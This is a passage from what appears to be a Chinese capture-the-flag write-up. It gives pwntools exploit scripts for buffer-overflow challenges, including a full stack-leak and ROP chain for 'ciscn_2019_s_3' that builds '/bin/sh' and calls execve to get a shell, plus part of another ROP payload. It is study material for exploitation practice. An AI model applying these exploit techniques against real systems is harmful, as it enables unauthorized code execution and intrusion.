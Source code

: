 ```python
pop_ebx = 0x804840d

payload1 = b'A'*28 + p32(gets_plt) + p32(main) + p32(win1) 
p.recvuntil(b"input> ")
p.sendline(payload1)
p.sendline(b'\x01\x01')

payload2 = b'A'*28 + p32(flag) + p32(main) + p32(a1)
p.recvuntil(b'input> ')
p.sendline(payload2)
p.interactive()
```
## jarvisoj_level3

## ciscn_2019_s_3
### 思路
泄露栈上的地址，计算偏移，构造'/bin/sh'字符串
之后有两个思路
1. 利用ROPgadget布置寄存器获取shell
2. 利用sigreturn布置寄存器获取shell

### exp
#### ROPgadget
```python
from pwn import *

#context.log_level = 'debug'

p = process('./ciscn_s_3')
#p = remote("node5.buuoj.cn",29806)

mov_rax_59 = 0x4004e3
mov_addr = 0x400580
pop_addr = 0x40059A
syscall = 0x400517
vuln = 0x4004ed
ret = 0x400538
pop_rdi = 0x4005a3

#gdb.attach(p)

payload1 = b'A'*16
payload1+= p64(vuln)
p.send(payload1)

#print(p.recv())

p.recv(32)
leak=u64(p.recv(8))
print(hex(leak))
binsh = leak - 0x148
ret_addr = binsh + 8

payload2 = b'/bin/sh\x00'+p64(ret)+p64(pop_addr)+p64(0)+p64(1)+p64(ret_addr)+p64(0)+p64(0)+p64(0)
payload2+=p64(mov_addr)+b'a'*7*8 + p64(mov_rax_59) +p64(pop_rdi) + p64(binsh) + p64(syscall)
p.sendline(payload2)

p.interactive()

```
